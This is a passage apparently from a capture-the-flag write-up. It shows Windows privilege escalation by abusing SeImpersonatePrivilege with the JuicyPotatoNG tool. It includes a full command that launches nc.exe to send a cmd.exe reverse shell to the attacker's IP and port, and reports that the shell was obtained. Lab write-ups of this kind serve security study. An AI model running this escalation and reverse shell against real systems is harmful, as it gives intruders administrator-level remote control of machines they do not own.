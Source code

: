I enumerate privileges of this user via `whoami /priv` command and see that `SeImpersonatePrivilege` is enabled.

![Alt text](img/image-41.png)


I will use this [JuicyPotato-NG](https://github.com/antonioCoco/JuicyPotatoNG/releases/tag/v1.1)


Let's upload this malicious executable into machine and run like below.

```bash
.\potato.exe -t * -p "C:\Windows\system32\cmd.exe" -a "/c C:\ProgramData\nc.exe 10.10.16.6 2024 -e cmd.exe"
```
![Alt text](img/image-42.png)


I got reverse shell from port (2024).

![Alt text](img/image-43.png)
